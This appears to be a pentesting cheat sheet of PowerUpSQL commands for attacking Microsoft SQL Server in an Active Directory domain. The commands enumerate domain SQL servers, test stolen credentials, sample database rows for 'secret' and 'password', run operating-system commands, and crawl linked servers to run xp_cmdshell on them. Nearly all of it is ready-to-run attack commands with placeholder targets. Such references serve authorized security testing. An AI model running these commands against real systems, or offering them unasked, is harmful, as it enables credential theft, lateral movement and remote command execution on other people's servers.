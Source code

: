 ### source
https://raw.githubusercontent.com/NetSPI/PowerUpSQL/master/PowerUpSQL.ps1  

### discover active directory domain SQL server
```
Get-SQLInstanceDomain -Verbose | Get-SQLServerinfo -Verbose
```

### list accessible SQL server using credentials
```
Get-SQLInstanceDomain -Verbose | Get-SQLConnectionTestThreaded -Verbose -Threads 10 -username <user> -password <password> | Where-Object {$_.Status -like "Accessible"}
```

### get information from specific instance
```
Get-Sqlserverinfo -instance <rhost>
```

### scan for misconfiguration
```
Invoke-sqlaudit -instance <rhost>
```

### search database rows for specific keywords (NoDefaults skip default tables)
```
Get-SQLColumnSampleData –Verbose –Keyword "secret,password" –SampleSize 10 –NoDefaults -Instance <rhost>
```

### execute command
```
Invoke-SQLOSCmd -Instance '<rhost>,1433' -Command '<command>' -RawResults
```

### execute query
```
Get-SQLQuery -Instance '<rhost>,1433' -Query 'SELECT * FROM master..sysservers'
```

### scan for linked databases
```
Get-SQLServerLinkCrawl -Instance '<rhost>,1433'
```

### execute commands on linked instances
```
Get-SQLServerLinkCrawl -Instance <rhost> -Query "exec master..xp_cmdshell '<command>'"
```

### excute command on linked mssql instance via rhost (xp_cmdshell can not be enabled by OpenQuery)
```
Get-SQLServerLinkCrawl -Instance '<rhost>,1433' -Query "exec master..xp_cmdshell '<command>' "
```

